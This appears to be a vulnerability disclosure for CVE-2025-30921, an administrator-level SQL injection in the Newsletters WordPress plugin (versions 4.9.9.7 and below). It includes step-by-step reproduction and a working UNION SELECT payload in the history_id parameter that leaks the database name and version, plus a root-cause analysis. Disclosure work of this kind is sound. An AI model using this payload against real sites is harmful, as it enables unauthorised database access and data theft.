




# CVE-2025-30921

## 1️⃣ Component type

WordPress plugin

## 2️⃣ Component details

`Component name` Newsletters

`Vulnerable version` <= 4.9.9.7

`Component slug` newsletters-lite

`Component link` https://wordpress.org/plugins/newsletters-lite/

## 3️⃣ OWASP 2017: TOP 10

`Vulnerability class` A3: Injection

`Vulnerability type` SQL Injection

## 4️⃣ Pre-requisite

Administrator

## 5️⃣ **Vulnerability details**

### 👉 **Short description**

When viewing the statistics overview chart in the plugin dashboard (`/wp-admin/admin.php?page=newsletters`) of Newsletters plugin version 4.9.9.7 or lower, an SQL Injection vulnerability occurs due to insufficient input validation and escape processing of URL parameters.

Through this vulnerability, an attacker with administrator privileges can exploit it to extract database information from the target site.

### 👉 **How to reproduce (PoC)**

1. Prepare a WordPress site with Newsletters plugin version 4.9.9.7 or lower installed.
2. Navigate to the Newsletters plugin dashboard menu (`/wp-admin/admin.php?page=newsletters`).
    
    
    
3. Using the browser developer tools, search for `action=wpmlwelcomestats&security=` in the 'Elements' tab and check the value of `security`. For example, if the search result appears as shown below, note down `22b1ac0de6`.
    
    ```jsx
    // ...
    
    jQuery.getJSON(newsletters_ajaxurl + 'action=wpmlwelcomestats&security=22b1ac0de6', ajaxdata, function(json) {
    
    // ...
    ```
    
    
    
4. Enter the noted `security` value in the `<SECURITY VALUE>` section of the URL path below and send a request to that URL
    
    ```
    http://localhost:8080/wp-admin/admin-ajax.php?action=wpmlwelcomestats&security=<SECURITY VALUE>&type=years&chart=bar&from=2024-12-31&to=2024-12-31&history_id=FOO%27+UNION+SELECT+(CONCAT((DATABASE()),%22-%22,(@@VERSION))),NULL+LIMIT+1,2+%23
    ```
    
    > Among the URL parameters, `history_id` contains the SQL Injection payload, which allows querying the database name (`DATABASE()`) and version (`@@VERSION`). For example, when the `security` value is `22b1ac0de6`, access the following URL.
    > 
    > 
    > `http://localhost:8080/wp-admin/admin-ajax.php?action=wpmlwelcomestats&security=22b1ac0de6&type=years&chart=bar&from=2024-12-31&to=2024-12-31&history_id=FOO%27+UNION+SELECT+(CONCAT((DATABASE()),%22-%22,(@@VERSION))),NULL+LIMIT+1,2+%23`
    > 
5. When checking the URL request response, you can confirm that the database name and version information are exposed due to the SQL Injection vulnerability through the `history_id` parameter.
    
    
    

### 👉 **Additional information (optional)**

#### [Root Cause of Vulnerability]

When requesting the URL where the SQL Injection vulnerability occurs in the above PoC, the `ajax_welcomestats` function within the `/wp-content/plugins/newsletters-lite/wp-mailinglist-plugin.php` file is called.

At this point, the request parameter `history_id` is directly referenced as a condition clause in the SQL query string and initialized as the variable `$history_condition`. This variable is then passed to the database query without any escape processing.



Therefore, since there is no validation or escape processing for values entered in the URL parameter `history_id`, an SQL Injection vulnerability occurs. (Note that the URL parameters `from` and `to` are also vulnerable to SQL Injection attacks due to insufficient input validation and escape processing.)

## 6️⃣ Exploit Demo

[](https://www.youtube.com/watch?v=FbgXsGIgbwA)


## 7️⃣ References

- [https://nvd.nist.gov/vuln/detail/CVE-2025-30921](https://nvd.nist.gov/vuln/detail/CVE-2025-30921)